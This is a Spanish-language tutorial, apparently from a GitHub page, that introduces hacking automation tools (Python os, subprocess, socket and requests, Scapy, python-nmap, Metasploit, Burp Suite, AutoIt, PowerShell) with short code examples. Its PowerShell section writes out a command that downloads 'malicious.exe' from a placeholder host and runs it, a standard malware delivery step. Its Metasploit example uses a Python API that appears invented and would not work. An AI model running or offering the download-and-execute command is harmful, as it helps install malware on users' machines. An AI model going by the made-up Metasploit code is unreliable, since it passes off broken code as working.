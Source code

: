 La automatización y scripting son herramientas clave en el arsenal de un hacker, ya que permiten realizar tareas repetitivas de manera eficiente, administrar sistemas, y ejecutar ataques o pruebas de penetración. Aquí hay una explicación teórica sobre algunas librerías y herramientas que un hacker podría utilizar, junto con ejemplos.

### 1. **Python**

Python es uno de los lenguajes de programación más populares entre los hackers por su simplicidad y la amplia gama de bibliotecas disponibles.

#### 1.1. **`os` y `subprocess`**

Estas bibliotecas permiten interactuar con el sistema operativo, ejecutar comandos y manipular archivos.

- **`os`**: Usada para ejecutar comandos del sistema y manipular el entorno.
  
  ```python
  import os
  
  # Listar archivos en un directorio
  files = os.listdir('.')
  print(files)
  ```

- **`subprocess`**: Permite ejecutar procesos del sistema y capturar su salida.

  ```python
  import subprocess
  
  # Ejecutar un comando y capturar su salida
  result = subprocess.run(['ls', '-l'], capture_output=True, text=True)
  print(result.stdout)
  ```

#### 1.2. **`socket`**

La biblioteca `socket` se usa para la programación de redes y puede ser utilizada para crear conexiones a otros sistemas.

```python
import socket

# Crear un socket y conectarse a un servidor
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('example.com', 80))
s.send(b'GET / HTTP/1.1\r\nHost: example.com\r\n\r\n')
response = s.recv(4096)
print(response.decode())
s.close()
```

#### 1.3. **`requests`**

La biblioteca `requests` se utiliza para hacer solicitudes HTTP, facilitando la interacción con APIs y sitios web.

```python
import requests

# Hacer una solicitud GET a un sitio web
response = requests.get('https://api.github.com')
print(response.json())
```

### 2. **Scapy**

**Scapy** es una poderosa herramienta de Python para el análisis de paquetes y el ataque de redes. Permite enviar, interceptar y analizar paquetes en una red.

```python
from scapy.all import *

# Capturar paquetes en la red
packets = sniff(count=10)
packets.summary()
```

### 3. **Nmap**

**Nmap** es una herramienta de escaneo de redes y auditoría de seguridad. Existen bibliotecas en Python, como `python-nmap`, que permiten interactuar con Nmap desde un script.

```python
import nmap

# Crear un objeto de escaneo
nm = nmap.PortScanner()

# Escanear un host
nm.scan('192.168.1.1', '22-80')
print(nm.all_hosts())
```

### 4. **Metasploit**

**Metasploit** es una herramienta de pruebas de penetración que incluye un marco para el desarrollo de exploits. Su API puede ser utilizada desde Python para automatizar tareas de explotación.

```python
from metasploit import Metasploit

# Iniciar la conexión con Metasploit
msf = Metasploit()
msf.connect()

# Ejecutar un exploit
msf.execute('exploit/multi/handler')
```

### 5. **Burp Suite**

**Burp Suite** es una herramienta de prueba de seguridad de aplicaciones web. Su API permite automatizar la interacción con el proxy de interceptación.

```python
import requests

# Realizar una solicitud a través del proxy de Burp Suite
proxy = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080',
}

response = requests.get('http://example.com', proxies=proxy)
print(response.text)
```

### 6. **AutoIt**

**AutoIt** es útil para automatizar la interfaz gráfica de usuario, lo que puede ser útil en entornos de Windows.

```autoit
; Ejecutar un programa
Run("notepad.exe")
```

### 7. **Powershell**

En entornos Windows, PowerShell puede ser una herramienta poderosa para la automatización y la explotación.

```powershell
# Ejecutar un script de PowerShell
Invoke-WebRequest -Uri "http://example.com/malicious.exe" -OutFile "malicious.exe"
Start-Process "malicious.exe"
```

### Conclusión

Las herramientas y bibliotecas mencionadas son fundamentales para los hackers debido a su capacidad para automatizar tareas, ejecutar ataques y manipular redes y sistemas. Sin embargo, es esencial recordar que el uso de estas herramientas debe ser ético y legal, siempre obteniendo el permiso adecuado antes de realizar pruebas de penetración o exploración de vulnerabilidades. La ética en la ciberseguridad es crucial para proteger la información y los sistemas de las personas y organizaciones.